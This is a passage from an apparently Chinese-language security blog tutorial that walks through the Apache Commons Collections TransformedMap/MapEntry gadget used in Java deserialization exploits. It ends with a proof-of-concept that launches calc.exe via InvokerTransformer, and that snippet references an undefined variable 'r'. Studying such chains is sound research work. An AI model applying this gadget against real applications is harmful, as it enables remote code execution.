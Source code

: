 ```java
static class MapEntry extends AbstractMapEntryDecorator {

        /** The parent map */
        private final AbstractInputCheckedMapDecorator parent;

        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }

        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }
```

并且发现`AbstractInputCheckedMapDecorator`是TransformedMap的父类

![image-20230404201443638](https://raw.githubusercontent.com/todis21/image/main/202304051555347.png)



再看看有哪些地方调用了`setValue`方法，Alt+F7，发现有好多

经过大佬讲解，这个`MapEntry`名字已经给出了提示，大概就是遍历map的键值对时就会调用这个方法，这里的setValue()其实是被重写了的entry.setValue()

```java
for(Map.Entry entry:Map.entrySet()) //遍历map
{
    entry.getValue();
}   
```



到这里应该通透了，可以试试用这个来弹计算器

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"});
HashMap<Object,Object> map = new HashMap<Object, Object>();
map.put("key","value");
Map<Object,Object> transformedMap  = TransformedMap.decorate(map,null,invokerTransformer);
for(Map.Entry entry:transformedMap.entrySet())
  {
    entry.setValue(r);
  }
```

OK,没猫病

![image-20230404203335268](https://raw.githubusercontent.com/todis21/image/main/202304051555088.png)




